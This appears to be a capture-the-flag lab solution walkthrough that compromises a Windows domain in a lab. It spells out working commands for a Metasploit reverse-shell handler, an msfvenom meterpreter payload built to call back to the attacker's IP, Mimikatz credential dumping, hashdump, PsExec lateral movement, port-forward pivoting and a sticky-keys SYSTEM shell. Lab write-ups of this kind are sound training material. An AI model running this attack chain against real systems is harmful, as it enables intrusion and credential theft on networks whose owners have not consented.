

# Sticky Phish Are Key Solution

_Note: IP addresses in this guide may change due to DHCP. Simply replace IP addresses in the guide with the correct ones in your environment_


The solution we will build will follow a process of:  

1. Setting up a reverse shell listener with Metasploit
1. Crafting a malicious program with msfvenom
1. Use Metasploit to interact with targeted hosts


## Section 1 - Reverse Shell Listener

This reverse shell listener (handler) will listen for a metasploit

1. Start the Metasploit Console --    `msfconsole -q`
1. Start using a handler  --   `use exploit/multi/handler`
1. Configure the handler options - the meterpreter payload below will spawn an interactive meterpreter session where the victim is initiating a TCP session with the attacker   
 ```
set payload windows/x64/meterpreter_reverse_tcp  
set lhost 192.168.1.201
set lport 4444
``` 
> _change the IP address if needed. Port number is your choice_
4. Start the listener as a background job  --  `exploit -j`


## Section 2 - Craft Malicious Payload

1. Use MSFVenom to create a malicious exe. This exe will start a meterpreter session which connects back to our Kali machine from the victim. The malware will prepend a migration into another process so the connection to the attacker is still running when the malicious process dies. Run the command:  
`msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.201 lport=4444 prependmigrate=true prependmigrateproc=calc.exe -f exe > malware.exe`  



2. Copy the malicious program over to the FTP server at ftp://ftp.challenge.pc

After copying the program, return to the Metasploit Console window. After a few seconds, you should see a session is started.


## Section 3 - Interacting with targeted hosts

1. Interact with the new Meterpreter session that was created:  ` sessions -i 1`
1. Navigate to the `C:\\token` directory on the remote machine and view the user token and submit the string.  (_There may be some erroneous characters before the token. Ignore these_)


3. Load the Kiwi module into Meterpreter to be able to use Mimikatz. This will be used to dump credentials on the target machine.   `use kiwi`


4. Use the following command to dump credentials with Mimikatz.   `kiwi_cmd "sekurlsa::logonPasswords"`  


5. Scroll through the output to look for the plaintext password of the Challenge domain administrator. 


If Mimikatz does not show any plaintext passwords (i.e., if there are only hashes shown), there is another way to get a plaintext password. 

6. Run the `hashdump` command from the Meterpreter shell. Notice that there is a "DefaultAccount" entry which has the same hashes as the Administrator account. This means that credentials to login to this account might be in the registry. 

7. Drop into a system shell from Meterpreter with the `shell` command. The type `powershell` to switch to Powershell from Command Prompt. 

8. Query the auto-login registry location and find plaintext credentials. 


9. Background the Meterpreter session to interact with Metasploit again: `background`.  (exit the powershell and command prompt windows with the `exit` command if you needed to enter those shells) 

10. Interact with the Windows PSexec exploit module. Set the payload options.


11. Set the exploit options for the PSexec exploit and launch it as a background job


12. Interact with the new Meterpreter session and retrieve the token. 


Next, we can move on to attacking the Dev box. We know the Dev box allows RDP only from the Domain Controller.  We can forward/relay traffic from the attacker machine through the domain controller. 

1. Interact with the Meterpreter Session you have on teh Domain Controller:  `sessions -i 2`

2. Setup a port forward/relay through the Domain Controller to the Dev machine (192.168.1.202) by entering the following command from the Meterpreter prompt:  
`portfwd add -l 3389 -p 3389 -r 192.168.1.202`  
This command will forward traffic bound for the Kali system's port 3389 through the Meterpreter session on the Domain Controller to port 3389 on the Dev box. 

3. Use the `rdesktop` command on Kali to access the Dev box via the port forward. `rdesktop 127.0.0.1:3389`. This will result in a RDP connection to the Dev machine. 

4. Using the hint the title `Sticky Phish Are Key`, activate sticky keys through the remote desktop by pressing shift 5 times in a row. (You may have to disable that sticky keys shortcut on your host machine to get this to work).  You will be presented with a System Level command prompt which can read the token. 